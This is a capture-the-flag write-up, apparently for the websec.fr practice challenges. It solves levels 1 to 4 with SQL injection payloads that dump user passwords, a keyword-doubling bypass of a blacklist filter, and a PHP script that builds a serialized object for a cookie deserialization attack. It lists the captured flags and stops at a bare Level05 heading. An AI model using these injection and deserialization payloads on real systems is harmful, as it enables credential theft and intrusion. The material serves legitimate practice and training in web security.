 **[Level01](http://websec.fr/level01/)**  
Using GROUP_CONCAT
```
-1 UNION SELECT 'a', GROUP_CONCAT(password) FROM users;--
```
```
WEBSEC{Simple_SQLite_Injection}
```
**[Level02](http://websec.fr/level02/)**  
It's same Level01 but filtered by the application using preg_replace()
```
$searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
$injection = preg_replace ('/' . $searchWords . '/i', '', $injection);
```
It replace 'union', 'order', 'select', 'from', 'group', 'by' to '', so we try
```
-1 UUNIONNION SSELECTELECT 'a', GGROUPROUP_CONCAT(password) FFROMROM users;--
```
```
WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```
**[Level03](http://websec.fr/level03/)**  
It's using <i>password_hash</i> and <i>password_verify</i>, but the hash string is special, it start with <i>7c00</i>
```
7c00249d409a91ab84e3f421c193520d9fb3674b
```

**[Level04](http://websec.fr/level04/)**  
We can Deserialization by create same class
```
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
$newSQL = new SQL();
$newSQL->query = "SELECT password AS username FROM users"; // because it take $row['username']
echo base64_encode (serialize($newSQL));
?>
TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6Mzg6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIjtzOjQ6ImNvbm4iO047fQ
```
Change cookie <i>leet_hax0r</i> we got
```
WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
```

**[Level05](http://websec.fr/level05/)**  